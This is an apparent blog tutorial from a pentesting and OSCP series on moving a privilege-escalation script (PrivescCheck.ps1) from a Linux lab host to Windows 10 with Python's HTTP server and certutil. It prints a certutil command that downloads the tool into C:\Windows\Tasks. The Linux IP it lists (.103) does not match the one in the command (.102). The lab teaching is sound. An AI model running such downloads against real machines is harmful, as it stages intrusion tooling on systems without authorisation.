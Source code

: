 ```yaml
---
layout: post
title: 'File Transfers - Part 2: Linux To Windows'
date: '2022-10-22 17:57:48 +0100'
categories: [Tutorial, OSCP]
tags: [linux, windows, oscp, python, file-transfer, pentesting, code, tutorial, ctf]
---
```


This is part of a series of tutorials on file transfer methods for pentesting and CTF scenarios.

# Linux to Windows File Transfer

## Scenario

We have a Windows and a Linux system connected to the same local network.

UBUNTU LINUX - 192.168.56.103<br>
WINDOWS 10 - 192.168.56.104

- We want to transfer the file `PrivescCheck.ps1` from LINUX to the WINDOWS system

![file-to-transfer](/assets/img/file-transfers-2/file-to-transfer.png)

- We will transfer the file to `C:\Windows\Tasks` on WINDOWS, since our fresh WINDOWS 10 install gives members of the **Authenticated Users** group write permissions on this directory, and it is currently empty.

![icacls-tasks](/assets/img/file-transfers-2/icacls-tasks.png)
<br>
![empty-dir](/assets/img/file-transfers-2/empty_dir.png)

In order to transfer a file FROM a Linux machine, we need to make it accessible to a remote machine. 
There are a number of ways we can do this. However, for this tutorial we will be using the **Python HTTP Server**.
We covered how to do this in [File Transfers: Part 1](https://dev-0x0.github.io/posts/file-transfers).

## Transferring the File

On our Linux system, we serve the file using the **Python HTTP Server.**

![serve-file](/assets/img/file-transfers-2/serve-file.png)

We now have a number of ways we can transfer the file to the Windows system. It's important to know the different methods you can use, as sometimes during a pentest, the OSCP, or a CTF, the system has been configured to make it harder for you to transfer files, leaving certain options unavailable to you. In this tutorial, we will use the Windows `certutil` tool.

### Certutil.exe

According to [Microsoft](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/certutil), "Certutil.exe is a command-line program, installed as part of Certificate Services". It is generally installed on Windows systems by default. However, we can use **certutil** to transfer files using the following command from our WINDOWS system. Providing a specific download location at the end of the command is generally optional, but may be necessary in certain situations.

`certutil -urlcache -split -f http://192.168.56.102:8000/PrivescCheck.ps1 [DOWNLOAD LOCATION]`
![certutil](/assets/img/file-transfers-2/certutil.png)

Listing the directory on WINDOWS, we can see that the file transferred successfully.

Looking at our **Python HTTP Server** on Linux, we can see the GET request that was made by **certutil**.
Sometimes there are two requests, that's okay.
![get-req1](/assets/img/file-transfers-2/get-req1.png)

## Conclusion

`Certutil.exe` is a very useful tool for file-transfers to Windows systems. Hopefully if you're reading this,
you found something of use here. Please check out the other [File-Transfer tutorials](https://dev-0x0/tags/file-transfer) for more. Thanks for reading!










